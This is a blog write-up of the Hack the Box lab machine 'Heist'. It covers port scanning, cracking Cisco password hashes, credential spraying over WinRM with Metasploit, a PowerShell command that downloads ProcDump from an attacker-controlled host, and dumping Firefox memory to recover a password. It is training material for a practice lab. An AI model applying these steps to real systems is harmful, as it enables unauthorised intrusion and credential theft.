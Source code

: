 +++
author = "Nick"
categories = ["CTF", "enumeration", "windows", "Powershell", "WinRM", "Ruby", "CVE", "hashcat", "impacket", "metasploit", "procdump", "hack the box", "cisco hashes"]
date = 2019-11-30T15:07:05Z
description = ""
draft = false
thumbnail = "/images/2019/09/info-1.png"
slug = "hack-the-box-heist"
summary = "Welcome back everyone! Today we are going to be going through the Hack the Box machine, Heist. Lets jump in!"
tags = ["CTF", "enumeration", "windows", "Powershell", "WinRM", "Ruby", "CVE", "hashcat", "impacket", "metasploit", "procdump", "hack the box", "cisco hashes"]
title = "Hack the Box - Heist"
url = "/hack-the-box-heist"

+++


Welcome back everyone! Today we are going to be going through the Hack the Box machine, Heist. Lets jump in!

As usually we start off with our standard nmap scan. ```nmap -sC -sV -oA heistscan 10.10.10.149```
```
Host is up (0.054s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 39s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-09T15:55:27
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We get back a fairly limited amount of results. So lets just be safe and rescan all ports. ```nmap -sV -p- -T4 10.10.10.149```

```
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49668/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect resul
```

This is bit more interesting. We see that we have port 5985 open, which is WinRM. That can be handy later on. Lets check out what the HTTP service is hosting.

![](/images/2019/09/image-1.png)

We see a login portal, admin:admin or any other standard password username combo's. We do see an option to login as guest. When we click it we are brought to a conversation tree.

![](/images/2019/09/image-2.png)

We are able to deduce a username, Hazard, as well as an attachment's directory. When we look at the attachement, we see a cisco config. We can decrypt level 7 passwords with an online tool [here](http://www.ifm.net.nz/cookbooks/passwordcracker.html). We enter in the encrypted password and get our dencrypted password back.

![](/images/2019/09/image-3.png" caption="The first.)

![](/images/2019/09/image-5.png" caption="The second.)

We also have the ability to try and brute for the type 5 passwords as well, but it fails. That's probably a better job for hashcat. We will put that type 5 password into a file and feed it to hashcat. I'll crack this from my windows machine since my VM would take forever to do it!

We issue ```hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt``` and wait.

![](/images/2019/09/image-4.png" caption="stealth1agent eh?)

Seconds later, we have a stealth1agent listed as the password. So now that we have a username and three passwords, we should try to see if they are a valid credentials for SMB.

We can start by enumerating shares on the target. ```smbmap -L \\\\10.10.10.149\\ -U Hazard```. We can then give it the password we just cracked and see if we can list some shares.

![](/images/2019/09/image-6.png)

We have a standard listing of shares. Trying to login with the three passwords we have as Hazard didn't work. So we'll need to enumerate the users a bit more. We can use a tool called lookupsid.py by [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py).

![](/images/2019/09/image-7.png)

We now have a list of users on the machine as well as the domain the machine is part of. We now have enough data to try and spray the RPC port for working credentials. First we need to compile the users into a file as well as all our passwords.

![](/images/2019/09/image-8.png)

We can now start up Metasploit using ```msfdb run```. We can locate some useful WinRM modules with ```search WinRM``` within Metasploit.

![](/images/2019/09/image-9.png)

In this case we want to use option 2, winrm_login. When we show the options we see the fields we want to use are ```PASS_FILE```, ```RHOSTS```, ```DOMAIN``` and ```USER_FILE```.

![](/images/2019/09/image-10.png)

We set all the options and let it rip!

![](/images/2019/09/image-11.png)

Looks like Chase is our guy! We will try to login using the above credentials to SMB and see what we get.

![](/images/2019/09/image-14.png)

Denied. After some quick digging around for WinRM RCE's, I found [this](https://alamot.github.io/winrm_shell/). We will simply modify the script with our credentials and target and see if it works out.

![](/images/2019/09/image-16.png" caption="Note that we have HTTP and not HTTPS.)

We have a shell!

![](/images/2019/09/image-17.png)

We change our directory to Desktop and snag the user.txt file. Onto root!

We know that since we've connected via WinRM that our current shell is powershell. So we can enumerate our processes by issueing ```get-process```. When we do, we notice everything is pretty normal except the Firefox instances. This is to emulate that there is another user on the machine running something, maybe an admin.

![](/images/2019/09/image-18.png)

As part of our enumeration, we head over to C:/inetpub/wwwroot and see whats there.

![](/images/2019/09/image-19.png)

We don't seem to have the ability to list the contents of the directory. We do however know what some of the pages that are being served, mostly login.php. Lets try to view that. It works, we can view the content of this PHP file. The part that sticks out is the password verification.

![](/images/2019/09/image-20.png)

We have a SHA256 encrypted password being stored here in plain text. We can simply decrypt this and have the password for admin.

![](/images/2019/09/image-21.png)

Lets try the same WinRM with the username Administrator and this password.

![](/images/2019/09/image-22.png)

Success! We have the root flag! However, I don't think that was the intended way of gaining root. I think the machine creator wanted us to use ProcDump to dump data from the FireFox instances and find the password in that dump. So lets do that too.

The first things we need to do is download ProcDumpfrom Microsoft. Once we do we will sping up a SimpleHTTPServer and serve the files to our machine: ```python -m SimpleHTTPServer 80```.

Now that its running we can use powershell to grab the file.

```(new-object net.webclient).DownloadFile("http://10.10.14.136/procdump64.exe","C:/users/Chase/Documents/p64.exe")```

We now have the file renamed as p64.exe. We will give it the commands to dump the processes from the larges running firefox instance.

![](/images/2019/09/image-23.png)

In this case we will use process 6612 since its using the mose amount of CPU. ```./p64.exe -accepteula -ma 6612```.

![](/images/2019/09/image-24.png)

This kicks out our dump file. One thing you may have noticed as we are jumping around on the system that Linux Subsystem is enabled on this machine. This helps us because we can use some linux based commands to parse this file.

```cat firefox.exe_190913_231848.dmp | % { if($_ -match "password") {echo $_}}```

This will give us a large output but if we sift through it, we should find the password we are looking for!
Sure enough, if you have your terminal scroll back high enough, you will find and unecrypted password. Now it would probably be a bit easier to download the file back to our attacking machine and just ```strings``` and ```grep``` the file for password but the file is a bit too large to be doing on the HTB network.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

